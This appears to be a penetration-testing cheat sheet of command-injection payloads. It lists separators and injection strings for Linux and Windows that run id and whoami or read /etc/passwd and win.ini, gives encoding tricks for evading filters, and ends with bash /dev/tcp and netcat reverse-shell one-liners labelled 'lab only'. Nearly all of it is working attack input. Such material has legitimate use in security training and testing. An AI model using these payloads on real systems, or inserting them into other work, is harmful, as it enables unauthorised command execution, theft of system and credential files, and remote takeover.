# Payloads (Command Injection)

## Separators
```
;    &&    |    %0a    `cmd`    $(cmd)
```

## Linux Examples
```
127.0.0.1;id
127.0.0.1&&id
127.0.0.1|id
127.0.0.1$(id)
127.0.0.1`id`
127.0.0.1;$(cat /etc/hostname)
127.0.0.1;cat$IFS/etc/passwd
```

## Windows Examples
```
127.0.0.1 & whoami
127.0.0.1 & type C:\Windows\win.ini
```

## Encoding
```
; → %3B   | → %7C   & → %26   space → $IFS
Newline → %0a
```

## Reverse Shell (lab only)
```
bash -i >& /dev/tcp/$target/4444 0>&1
nc -e /bin/sh $target 4444
```
